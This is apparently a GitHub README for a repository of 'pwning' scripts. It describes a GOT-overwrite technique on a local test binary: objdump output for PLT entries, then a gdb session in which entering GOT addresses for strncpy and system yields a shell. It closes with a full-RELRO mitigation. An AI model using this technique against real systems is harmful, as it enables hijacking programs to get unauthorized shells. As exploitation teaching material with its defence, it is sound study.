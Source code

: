 # how_to_pwn
Collection of pwning scripts

# How to pwn the system using GOT tables
* got_pwn.c contains code for pwning system using GOT tables.
* Run objdump -d <exec> to figure out GOT offset entries for strncpy & system.
* If pwning is successful, the script will drop you to a shell
  
# Example o/p
```
Disassembly of section .plt:

0000000000400570 <strncpy@plt-0x10>:
  400570:       ff 35 92 0a 20 00       pushq  0x200a92(%rip)        # 601008 <_GLOBAL_OFFSET_TABLE_+0x8>
  400576:       ff 25 94 0a 20 00       jmpq   *0x200a94(%rip)        # 601010 <_GLOBAL_OFFSET_TABLE_+0x10>
  40057c:       0f 1f 40 00             nopl   0x0(%rax)

0000000000400580 <strncpy@plt>:
  400580:       ff 25 92 0a 20 00       jmpq   *0x200a92(%rip)        # 601018 <_GLOBAL_OFFSET_TABLE_+0x18>
  400586:       68 00 00 00 00          pushq  $0x0
  40058b:       e9 e0 ff ff ff          jmpq   400570 <_init+0x20>

0000000000400590 <puts@plt>:
  400590:       ff 25 8a 0a 20 00       jmpq   *0x200a8a(%rip)        # 601020 <_GLOBAL_OFFSET_TABLE_+0x20>
  400596:       68 01 00 00 00          pushq  $0x1
  40059b:       e9 d0 ff ff ff          jmpq   400570 <_init+0x20>

00000000004005a0 <__stack_chk_fail@plt>:
  4005a0:       ff 25 82 0a 20 00       jmpq   *0x200a82(%rip)        # 601028 <_GLOBAL_OFFSET_TABLE_+0x28>
  4005a6:       68 02 00 00 00          pushq  $0x2
  4005ab:       e9 c0 ff ff ff          jmpq   400570 <_init+0x20>

00000000004005b0 <system@plt>:
  4005b0:       ff 25 7a 0a 20 00       jmpq   *0x200a7a(%rip)        # 601030 <_GLOBAL_OFFSET_TABLE_+0x30>
  4005b6:       68 03 00 00 00          pushq  $0x3
  4005bb:       e9 b0 ff ff ff          jmpq   400570 <_init+0x20>

ubuntu:~/got]# gdb ./main1
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.3) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./main1...done.
(gdb) r
Starting program: /root/got/main1
strcpy_plt addr :0x400580
GOT=0x600e28, &GOT=0x200895
strcpy@plt:0x600e40
Address at strcpy:0x400550
Hello!/bin/sh
Enter address of strncpy@plt
0x601018
Enter address of system@plt
0x601030
#
# ls
heapexecute.c  main  main1  main.c  Makefile  signal  signal.c	vnag  vnag2
#
```
#Mitigation
Lazy binding is enabled by default. The issue can be mitigated by marking GOT as RELRO i.e by compiling the executable with the linker flag -Wl,-z -Wl,now
